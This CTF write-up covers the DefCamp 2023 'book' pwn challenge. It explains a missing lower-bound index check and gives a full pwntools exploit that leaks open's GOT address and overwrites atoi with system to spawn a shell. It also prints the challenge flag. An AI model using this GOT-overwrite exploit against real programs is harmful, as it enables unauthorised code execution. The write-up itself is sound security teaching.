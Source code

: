 ## Challenge Description

Read books for inspiration so you know what to write!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```  
$ checksec book  
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH
RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE  
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No
RUNPATH   74 Symbols        No    0               4               book  
```  
We have PIE enabled but Partial RELRO. Partial RELRO might mean that we will
overwrite GOT entries.

We decompile the binary and find a missing lower bound check for the index of
the entry we read/write. We have arbitrary read/write primitives before the
address of the todos list. Luckily, the GOT entries are before it. The main
idea would be to leak a libc address, find the libc version and overwrite a
function with ``system``.

### Solution

We can only leak an arbitrary amount of bytes, until a null byte is found,
with the ``printf`` found in ``print_todo``.

```c  
void print_todo(void)

{  
 int iVar1;  
  
 printf("Which entry would you like to read? ");  
 fflush(stdout);  
 iVar1 = read_int();  
 if (iVar1 < 0x81) {  
   printf("Your NOTE: %s\n",todos + iVar1 * 0x30);  
 }  
 else {  
   puts("Sorry but this model only supports 128 NOTE list entries.\n");  
 }  
 return;  
}  
```  
The catch is, we can only read at offsets of ``0x30`` bytes from the beginning
of the ``todos``. Luckily it is perfectly aligned with some GOT functions, but
the ``"%s"`` format string will run into some issues if it finds the null
byte. We choose to leak open as it is perfectly aligned at an offset of ``-4 *
0x30``. We get the address, determine the libc version manually using [libc
database](https://libc.blukat.me/) and then determine the offset to ``system``
from ``open``. Luckily we only need the lower 3 bytes of the address from the
leak, so the ``"%s"`` format won’t be too inconvenient.

We can use ``store_todo`` to write, again at offsets of ``0x30`` bytes from
``todos``. Below you can find a commented version of the exploit:

```py  
#!/usr/bin/env python3

from pwn import *

target = process("./book")  
#target = remote("34.89.131.150", 30325)

# Different offsets on local/remote  
is_remote = False  
if is_remote:  
   # libc6_2.31-0ubuntu9.9_amd64  
   system_offset = -0xbba50  
else:  
   system_offset = -801120

# Addresses found in .got.plt and .data  
# PIE is enabled but we write relative to todos address and it will be fine  
todos_addr = 0x00104140  
open_gotplt_addr = 0x00104080

# Function to transform offsets to indices for todos  
def get_offset_idx(addr):  
   return (addr - todos_addr) // 48

# Leak open address using arbitrary read primitive  
target.sendline(b"sunbather")  
target.sendline(b"2")  
idx = get_offset_idx(open_gotplt_addr)  
target.sendline(str(idx).encode())  
target.recvuntil(b"Your NOTE: ")  
leak = target.recvline().strip()  
print(hex(leak[0]), hex(leak[1]))

# somewhere here we can manually search for the libc version

# Determine system address  
open_addr = int.from_bytes(leak, byteorder="little")  
system_addr = open_addr + system_offset

# Write relative to todos  
idx = get_offset_idx(open_gotplt_addr)  
target.sendline(b"3")  
target.sendline(str(idx).encode())

# Overwrite GOT entry of atoi  
# atoi is right next to open, which means we use the previous open leak  
# to keep open intact  
leak = leak + b"\x00" * (8 - len(leak)) if len(leak) < 8 else leak # this is
just to make sure the leak has 8 bytes  
# then overwrite atoi with system  
payload = leak + p64(system_addr)

print(b"sending:" + payload)

# pop a shell ;)  
target.sendline(payload)  
target.interactive()  
```

An important thing to add is that we choose ``atoi`` not only because it is
easy to overwrite (right next to open), which allows us to keep the rest of
the addresses in GOT intact, but also because the next input we give to the
program will be directly passed to ``atoi``. Which means that if we replace it
with ``system`` we pretty much get a shell.

#### Flag

```CTF{33b9fc73cf5667ace669b51470f10addd390f3abc6101b366ce0eaf239846fc2}```

Original writeup (https://dothidden.xyz/defcamp_quals_2023/book/).